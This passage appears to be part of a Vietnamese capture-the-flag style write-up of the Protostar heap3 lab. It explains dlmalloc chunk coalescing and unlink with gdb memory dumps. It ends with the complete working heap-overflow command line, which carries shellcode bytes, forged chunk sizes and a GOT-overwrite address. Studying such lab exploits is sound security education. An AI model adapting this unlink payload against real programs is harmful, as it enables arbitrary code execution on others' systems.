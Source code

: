 Có thể thấy, ngoài thay đổi về giá trị được lưu sau `unlink`, chúng ta còn có thay đổi về `size` của khối được free, <span style="color:aqua">highlight</span>. `size` mới được tính bằng `size` của khối đang xét cộng thêm `size` của khối liền sau.
Với ví dụ trên, `size` mới là `0x64 - 0x04 = 0x60`. Lưu ý, bit cuối vẫn được đặt là 1, nên giá trị lưu ở `size` là `0x61`.
Sau khi `unlink` thì khối đang xét cũng trở thành khối liên trước của khối liền sau của khối liền sau nó.
`prev_size` của khối liền sau của khối liền sau lúc này cũng được cập nhật bằng với `size` mới.
Cụ thể, `prev_size` được gán giá trị `0x60`.

Tiếp nữa, khối đang xét trở thành một khối trống nên 2 dword sau meta data của nó cũng được thay đổi cho phù hợp như <span style="color:orangered">highlight</span>.
2 vị trí này nằm ở địa chỉ `0x0804c058` và `0x0804c05c`.

Tại sao chúng được đặt thành `0x0804b194` thì mình chưa rõ! Giá trị này có vẻ là head của doubly linked list dùng để lưu những vị trí đã được free trên heap.

Trước khi chạm đến hàm `winner`, ta sẽ kiểm tra nốt bộ nhớ sau 2 lần `free` cho các khối thứ 1 và 2.

<pre class="memory">
0x804c000:      0x00000000      0x00000029      <span style="color:orangered">0x0804c028</span>      0x41414141
0x804c010:      0x048864b8      0xc3d0ff08      0x0804b11c      0x00000000
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000029
0x804c030:      <span style="color:orangered">0x00000000</span>      0x42424242      0x42424242      0x42424242
0x804c040:      0x42424242      0x42424242      0x42424242      0x42424242
0x804c050:      0x43434343      0x00000061      0x0804b194      0x0804b194
0x804c060:      0x44444444      0x44444444      0x44444444      0x44444444
0x804c070:      0x44444444      0x44444444      0x44444444      0x44444444
0x804c080:      0x44444444      0x44444444      0x44444444      0x44444444
0x804c090:      0x44444444      0x44444444      0x44444444      0x44444444
0x804c0a0:      0x44444444      0x44444444      0x44444444      0x44444444
0x804c0b0:      0x00000060      0xfffffffc      0xfffffffc      0x0804b11c
0x804c0c0:      0x0804c010      0x00000000      0x00000000      0x00000000
0x804c0d0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0e0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0f0:      0x00000000      0x00000000      0x00000000      0x00000000
</pre>

Có 2 thay đổi nằm ở vị trí liên quan đến meta data của khối thứ 1 và 2.
Những thay đổi này không làm ảnh hưởng đến mục đích exploit của chương trình như đã tính toán trước.
Sau đây là kết quả của chương trình.

```bash
heap3 $(python -c 'print "AAAA" *  2 + "\xb8\x64\x88\x04\x08\xff\xd0\xc3"') $(python -c 'print "BBBB" *  8 + "CCCC" + "\x65"') $(python -c 'print "DDDD" * 23 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff" + "\x1c\xb1\x04\x08" + "\x10\xc0\x04\x08"')
```

<pre class="memory">
that wasn't too bad now, was it? @ 1688030376
</pre>
